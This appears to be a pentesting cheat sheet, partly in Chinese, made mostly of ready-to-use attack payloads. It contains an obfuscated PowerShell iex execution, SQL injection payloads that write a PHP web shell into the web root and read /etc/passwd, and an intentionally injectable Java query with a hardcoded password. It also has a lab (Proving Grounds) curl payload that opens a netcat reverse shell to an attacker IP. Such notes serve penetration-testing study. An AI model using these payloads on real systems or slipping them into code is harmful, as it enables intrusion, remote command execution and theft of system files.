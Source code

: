 ```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
## 自動化攻擊工具
* [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)
- [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)
# SQL Injection

## SQL Injection to RCE
``` sql
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
```
```
0' UNION SELECT '<?php phpinfo();?>', null INTO OUTFILE '/var/www/info.php' #
```
``` java title=可注入的程式範例
connectionProps.put("password", "ManagementInsideOld797");
try {
    conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
    System.out.println(query);
    Statement stmt = conn.createStatement();
    stmt.executeQuery(query);
}
```
- Mysql Read File
```
SELECT * LOAD_FILE('/home/username/mytextfile.txt');
```
```
0' UNION SELECT 1, load_file('/etc/passwd') #
```
# 雜項技術
>[!warning]
>紀錄一些遇到的攻擊手法
## Python API RCE
>[!warning]
>Proving Grounds -Hetemit
``` 
curl -X post --data "code=2*2" http://192.168.193.117:50000/verify
```
```
curl -X post --data "code=os.system('nc -e /bin/bash 192.168.45.223 18000')" http://192.168.193.117:50000/verify
```

